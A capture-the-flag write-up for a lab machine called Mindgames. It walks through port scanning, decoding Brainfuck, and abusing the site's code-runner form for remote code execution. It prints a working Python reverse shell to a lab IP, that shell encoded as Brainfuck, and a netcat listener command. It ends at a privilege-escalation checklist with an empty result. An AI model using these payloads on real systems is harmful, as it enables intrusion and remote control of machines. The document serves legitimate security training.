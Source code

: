 # Mindgames write-up.
![room](https://user-images.githubusercontent.com/110361097/182584894-83f22081-1cbf-4aa8-afab-7ae39ffc5c1a.JPG)

HINT: No hints. Hack it. Don't give up if you get stuck, enumerate harder.

## Preparation:
Set the IP address as an environment variable in a terminal to make the process simple.

`export IP=10.10.242.185`

Access the IP variable with: $IP

## Reconnaissance:
Scan the IP address with nmap.

`nmap -A -Pn -sV -p- $IP -v -T 4`

**Result:**

![res-1](https://user-images.githubusercontent.com/110361097/182585019-1fcc6006-034d-4816-8ddb-53f77c7340b5.JPG)

So, we have ports 22 and 80 with services as ssh/web server.

## Enumeration:
Let's see what's on port 80's initial page.

`curl http://$IP -v`

**Result:**

![](/img/res-2.JPG)
![res-2](https://user-images.githubusercontent.com/110361097/182585173-f003d266-95f9-44e0-9990-8f3da077f2c8.JPG)


Possible Pivot Routes/Points Of Interest:

- /main.js
- /main.css

**Observations:**

We have references to:
* Programming
* Hello, World
* Fibonacci
* Code that contains ".-+[]<>"

This code looks familiar...

I'll assess the code sequence/pattern with a [cipher-identifier](https://www.dcode.fr/cipher-identifier)

The code has been identified as "Brainfuck".

**Info:**

Kind of makes sense since the room's name is mindgames...

We'll press on with decoding.

* Hello, World: `print("Hello, World")`
* Fibonacci:    `def F(n): if n <= 1 1: return f(n-1)+f(n-2) for i in range(10): print(f(i))`

Nothing looks interesting here. Just some standard code running on an interpreter.

Based on the initial webpage having a "Try before you buy" feature that took *trusted*
input from the user, we can assume this may be our first attack point as it would be a simple
web app using the Brainfuck code unfiltered/unsanitized as source-code input.

The code language that needs wrapping with Brainfuck is Python, this is assumed based on the "Hello, World" code that was decoded earlier.

We'll begin by generating a Python reverse shell over at: https://www.revshells.com, then encode it with Brainfuck at: https://www.splitbrain.org/_static/ook/. With this, we will try for a reverse shell first.

**The Setup:**

Python Reverse Shell: 

    import os,pty,socket;s=socket.socket();s.connect(("10.10.52.202",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")

Brainfuck wrapped:

    +++++ +++++ [->++ +++++ +++<] >++++ +.+++ +.+++ .-.++ +.++. <++++ +++++[->-- ----- --<]> ---.< +++++ +++[- >++++ ++++< ]>+++ +++++ +++++ ++.++++.<+ +++++ ++[-> ----- ---<] >---- ---.< +++++ +++[- >++++ ++++< ]>++++.+++ +.+++ ++.<+ +++++ ++[-> ----- ---<] >---- ----- ----. <++++ ++++[->+++ +++++ <]>++ +++++ .---- .<+++ [->-- -<]>- --.++ +++++ +.--- ---.<+++[- >+++< ]>+++ +++.< +++++ ++[-> ----- --<]> ----- ---.< +++++ ++[->+++++ ++<]> +++++ ++.<+ +++++ +[->- ----- -<]>- ----. <++++ +++[- >+++++++<] >++++ +.--- -.<++ +[->- --<]> ---.+ +++++ ++.-- ----. <+++[ ->+++<]>++ ++++. <++++ ++++[ ->--- ----- <]>-- ----. <++++ ++++[ ->+++ +++++<]>++ +++.- ---.< +++[- >---< ]>--- .++++ ++++. ----- -.<++ +[->+ ++<]>+++++ +.<++ +++++ +[->- ----- --<]> ----- ----- --.+. <++++ [->++ ++<]>++.<+ +++++ +[->+ +++++ +<]>+ +++++ +.<++ +++++ +[->- ----- --<]> -----.<+++ ++++[ ->+++ ++++< ]>+++ +.<++ +[->+ ++<]> +++.- ..--- ----- -.--.<++++ [->++ ++<]> +.<++ +++++ +[->- ----- --<]> ----- ----- --..- -----.<+++ [->++ +<]>+ +++++ .-.-- .+++. -.--. +++++ ++.-- -.--- -.+++ +.--.++.<+ +++[- >---- <]>.< +++[- >+++< ]>+.+ +++++ ++... .<+++ [->-- -<]>--..<+ +++[- >++++ <]>++ .<+++ ++[-> +++++ <]>++ +++++ .<+++ +[->+ +++<]>++++ .++++ .<+++ +++++ [->-- ----- -<]>- ----. <++++ +++[- >++++ +++<]>++++ +.<++ ++[-> ++++< ]>+.- ----. <++++ +++[- >---- ---<] >---- ---------. <+++[ ->--- <]>-. <++++ ++++[ ->+++ +++++ <]>++ +++++ ++++. <++++++++[ ->--- ----- <]>-- ---.< +++++ ++[-> +++++ ++<]> +++++ ++.++ +.+++.---- ---.+ +++++ +++.+ .<+++ +++++ [->-- ----- -<]>- ----- -.+.+ ++.<++++++ +[->+ +++++ +<]>+ +++++ +++.< +++++ ++[-> ----- --<]> ----- -------.<+ +++++ +[->+ +++++ +<]>+ +++++ +++++ +.+++ +++++ +.+++ .<+++ ++++++[->- ----- ---<] >-.<+ +++++ ++[-> +++++ +++<] >++++ ++.<+ +++++ ++[->----- ---<] >---- --.<+ +++++ ++[-> +++++ +++<] >++++ +++++ .++++ +.<+++++++ +[->- ----- --<]> ----- -.+++ +++++ .---- .++++ +.--- --.++ ++++.----- ----. <++++ +++[- >++++ +++<] >+++. <++++ +[->- ----< ]>--- ------.<++ +++++ [->++ +++++ <]>++ ++.++ ++.++ +++.< +++++ +++[- >---- ----<]>--- ----- ---.< +++++ +++[- >++++ ++++< ]>+++ ++.-- -.<++ +[->- --<]>----- -.<++ ++[-> ++++< ]>+++ +++.- ----- ---.< +++++ +++[- >---- ----<]>--- ---.- ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> +++++ ++<]> ++.+++++++ .++++ +.<++ +++++ [->-- ----- <]>-- ----- ----- --.<+ +++++ +[->++++++ +<]>+ +.-.< ++++[ ->+++ +<]>+ +.<++ +[->- --<]> --.<+ +++++ ++[->----- ---<] >---- --.++ +++++ .<

rlwrap listner:

`rlwrap -cAr nc -lvnp 4444`

We need to have our listener running first, then submit the wrapped code into the
"Try before you buy" submission form. 

Now submit the encoded reverse shell in the submission form with your netcat listener running and you should get the shell pop.

**Result:**

![res-4](https://user-images.githubusercontent.com/110361097/182585214-43e76183-9f44-4388-a18c-5161b0fcd2ac.JPG)


We now have shell access! Let's look for the user.txt file.

Our initial directory path is "/home/mindgames/webserver", so goto the user's home "/home/mindgames". 

Perform a directory listing and find the "user.txt" file.

![res-5](https://user-images.githubusercontent.com/110361097/182585240-7594a3d0-bc4d-495c-a7bf-e5593d3fc568.JPG)


## Flag 1:

![flag1](https://user-images.githubusercontent.com/110361097/182585255-e6e3eee9-00da-4bc5-af83-8137b7f9296d.JPG)

## Privilege Escalation:

### Target:

File: /root/root.txt

**Owned by:**

User: root

Steps:
 * Enumerate for suid/guid bit set applications by the user.
 * Modifiable dependencies/programs/files/jobs used by the target user account.
 * Readable sensitive information for the target user.
 * System or application vulnerabilities/exploits.
 * Identify possible lower level users within same target group/permissions.

**Result:**
